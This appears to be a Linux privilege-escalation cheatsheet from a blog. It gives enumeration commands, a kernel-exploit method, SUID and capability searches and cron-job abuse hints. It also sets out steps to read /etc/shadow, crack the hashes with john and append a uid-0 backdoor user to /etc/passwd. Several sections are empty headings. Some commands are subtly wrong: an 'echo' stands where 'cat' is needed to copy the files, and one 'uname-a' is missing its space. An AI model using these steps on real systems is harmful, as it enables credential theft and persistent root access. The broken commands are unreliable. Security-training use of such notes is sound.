 ```yaml
---
title: Linux Privilege Escalation
date: 2022-08-15
categories: [Cheatsheet]
tags: [linux, privesc]
---
```


# What is Privilege Escalation ?

# Enumeration
````bash
hostname
````
This command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. _Ubuntu-3487340239_), in some cases, it can provide information about the target system’s role within the corporate network (e.g. _SQL-PROD-01_ for a production SQL server).
 
````bash
uname -a
````
This command will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities.

````bash
cat /proc/version
````
The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.
Looking at `/proc/version`{: .filepath} may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

````bash
cat /etc/issue
````
Systems can also be identified by looking at the `/etc/issue`{: .filepath} file. This file usually contains some information about the operating system but can easily be customized or changes. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.

````bash
ps
````
The ps (Process Status) command is an effective way to see the running processes on a Linux system.

The output of the ps will show the following;
• __PID__: The process ID (unique to the process)
• __TTY__: Terminal type used by the user
• __Time__: Amount of CPU time used by the process (this is NOT the time this process has been running for)
• __CMD__: The command or executable running (will NOT display any command line parameter)

Use ``ps -A`` to view all the running processes.

````bash
env
````

````bash
sudo -l
````
List the command which can be runned as root with the current user

````bash
id
````

````bash
cat /etc/passwd
````

````bash
cat /etc/shadow
````

````bash
history
````

````bash
ifconfig
````

````bash
netstat
````

````bash
find
````

````bash
ip route
````

````bash
netstat
````

# Kernel exploits
## Methodology
The Kernel exploit methodology is simple
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

The following commands will help you gather enough information:
````bash
uname-a
cat /proc/version
cat /etc/issue
````

## Hints/Notes:
1. Don't hesitade being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
4. You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and wget respectively.

# SUDO

# SUID / GUID
## What is SUID / GUID ?
Use this command to find all the file of the system with SUID permission
````bash
find / -type f -perm -04000 -ls 2>/dev/null
````
Then compare your findings with GTFOBins: <https://gtfobins.com>

# /etc
If we can read the `/etc/passwd`{: .filepath} and the `/etc/shadow`{: .filepath} files :

1. Copy the content of each file
````bash
echo /etc/passwd > passwd.txt
echo /etc/shadow > shadow.txt
````
2. Use _unshadow_ to create a usable file for _john_
````bash
unshadow passwd.txt shadow.txt > unshadowed.txt
````
3. Then let _john_ do the job
````bash
john unshadowed.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
````
4. You can now add new user with root privileges
````bash
openssl passwd -1 -salt new_user new_password
-> hash
````
5. in /etc/passwd at the end add 
````bash
user:hash:0:0:root:/root:/bin/bash
````
6. You should now login into your new root user
````bash
su new_user
````

# Capabilities
Another method system administrators can use to increase the privilege level of a process or binary is "Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

Use the following command to identify potential capabilities :
````bash
getcap -r / 2>/dev/null
````

# Cron Jobs
To list all jobs :
````bash
cat /etc/crontab
````
try to see if :
- a file runned by a cron job can be modified and therefore run cmd with root privileges
- a cron job try to run a file that doesn't exists anymore

# $PATH

# NFS

